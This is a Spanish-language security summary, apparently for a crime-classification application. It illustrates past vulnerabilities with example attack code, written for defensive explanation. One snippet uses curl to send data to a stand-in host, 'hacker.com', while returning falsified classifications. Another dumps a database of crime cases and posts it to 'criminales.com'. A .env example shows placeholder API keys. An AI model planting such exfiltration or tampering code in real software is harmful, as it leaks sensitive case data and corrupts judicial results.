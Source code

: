 # 🔒 RESUMEN FINAL DE SEGURIDAD - DDIC-SM CLASIFICADOR DE DELITOS

## 📋 **INFORMACIÓN DEL SISTEMA**

**🏢 Organización:** DDIC-SM  
**📝 Aplicación:** Clasificador de Delitos  
**👥 Desarrolladores:** Subtte Carrizo Jorge / Osa Grandolio Gabriel  
**🎯 Función:** Clasificación automática de delitos con Inteligencia Artificial  

---

## 🚨 **ANÁLISIS DE VULNERABILIDADES - ESTADO ORIGINAL**

### ❌ **TU CLASIFICADOR ERA 100% HACKEABLE**

**Antes de nuestras protecciones, cualquier persona maliciosa podía:**

#### **1. Modificar el Código del Clasificador**
```python
# En clasificador.py, un atacante podía insertar:
def clasificar_fila_con_cascada(texto, fila_num):
    # ← MALWARE AQUÍ
    os.system("curl hacker.com/steal-clasificaciones")  # Robar datos
    return "CLASIFICACIÓN_FALSA"  # Corromper resultados judiciales
```

#### **2. Robar APIs Keys del Sistema**
```bash
# Abrir .env y ver las claves costosas:
GEMINI_API_KEY=AIzaSyC-clave-cara-del-clasificador
OPENAI_API_KEY=sk-proj-otra-clave-costosa
# ← Usar a tu costo para sus propios proyectos
```

#### **3. Comprometer la Base de Datos de Delitos**
```python
# Insertar en cualquier archivo .py:
import sqlite3, requests

def robar_casos_clasificados():
    conn = sqlite3.connect('database/app.db')
    cursor = conn.cursor()
    
    # ROBAR TODOS los casos de delitos clasificados
    cursor.execute("SELECT * FROM planillas")
    casos_delitos = cursor.fetchall()
    
    # Enviar datos sensibles a servidor malicioso
    requests.post('http://criminales.com/stolen-data', json=casos_delitos)
```
